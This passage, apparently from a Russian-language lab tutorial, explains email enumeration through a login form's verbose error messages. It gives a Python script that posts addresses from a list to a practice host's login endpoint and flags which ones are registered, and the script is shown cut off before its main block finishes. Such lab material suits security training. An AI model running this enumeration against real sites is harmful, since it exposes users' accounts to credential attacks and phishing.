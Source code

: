 Если вы введете недействительный адрес электронной почты, сайт ответит сообщением «Адрес электронной почты не существует», что будет означать, что данный адрес электронной почты еще не зарегистрирован.

Сообщение об ошибке «Электронная почта не существует»

Однако если адрес электронной почты уже зарегистрирован, веб-сайт ответит сообщением об ошибке «Неверный пароль», указывающим на то, что адрес электронной почты существует в базе данных, но пароль неверный.

Сообщение об ошибке «Неверный пароль»

Автоматизация
Ниже приведен скрипт Python, который будет проверять допустимые адреса электронной почты в целевом веб-приложении. Сохраните код ниже как script.py .

```python
import requests
import sys

def check_email(email):
    url = 'http://enum.thm/labs/verbose_login/functions.php'  # Location of the login function
    headers = {
        'Host': 'enum.thm',
        'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
        'Accept': 'application/json, text/javascript, */*; q=0.01',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
        'X-Requested-With': 'XMLHttpRequest',
        'Origin': 'http://enum.thm',
        'Connection': 'close',
        'Referer': 'http://enum.thm/labs/verbose_login/',
    }
    data = {
        'username': email,
        'password': 'password',  # Use a random password as we are only checking the email
        'function': 'login'
    }

    response = requests.post(url, headers=headers, data=data)
    return response.json()

def enumerate_emails(email_file):
    valid_emails = []
    invalid_error = "Email does not exist"  # Error message for invalid emails

    with open(email_file, 'r') as file:
        emails = file.readlines()

    for email in emails:
        email = email.strip()  # Remove any leading/trailing whitespace
        if email:
            response_json = check_email(email)
            if response_json['status'] == 'error' and invalid_error in response_json['message']:
                print(f"[INVALID] {email}")
            else:
                print(f"[VALID] {email}")
                valid_emails.append(email)

    return valid_emails

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 script.py <email_list_file>")
        sys.exit(1)
```